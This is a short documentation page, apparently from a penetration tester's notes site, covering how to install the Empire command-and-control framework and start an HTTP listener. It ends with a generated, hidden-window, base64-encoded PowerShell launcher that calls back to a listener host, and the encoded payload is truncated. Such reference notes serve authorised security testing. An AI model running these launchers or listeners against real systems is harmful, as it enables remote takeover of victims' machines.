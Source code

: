 ```yaml
---
### The title for the content.
title : "empire"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "empire"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "empire description."
### The datetime assigned to this page.
date : 2020-03-11T10:40:17+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "empire"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## empire

### Install

#### System

```bash
git clone https://github.com/BC-SECURITY/Empire
cd Empire
sudo ./setup/install.sh
```

#### Docker

```bash
docker pull bcsecurity/empire:{version}
docker run -it bcsecurity/empire:{version}

# with persistent storage
docker pull bcsecurity/empire:{version}
docker create -v /empire --name data bcsecurity/empire:{version}
docker run -it --volumes-from data bcsecurity/empire:{version}

# if you prefer to be dropped into bash instead of directly into empire
docker run -it --volumes-from data bcsecurity/empire:{version} /bin/bash
```

### Examples

#### Reset DB

```bash
/empire/setup/reset.sh
```

#### setup basic listener and gen launcher

```bash
(Empire) > listeners
[!] No listeners currently active
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.24:80
(Empire: listeners/http) > set BindIP 10.10.14.24
(Empire: listeners/http) > set Port 80
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher
[!] Please enter 'launcher <language> <listenerName>'
(Empire: listeners) > launcher powershell http
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAF.....kAEsAKQApAHwASQBFAFgA
```

### Also see

* [Github project](https://github.com/BC-SECURITY/Empire)
* [Quickstart](https://github.com/BC-SECURITY/Empire/wiki/Quickstart)
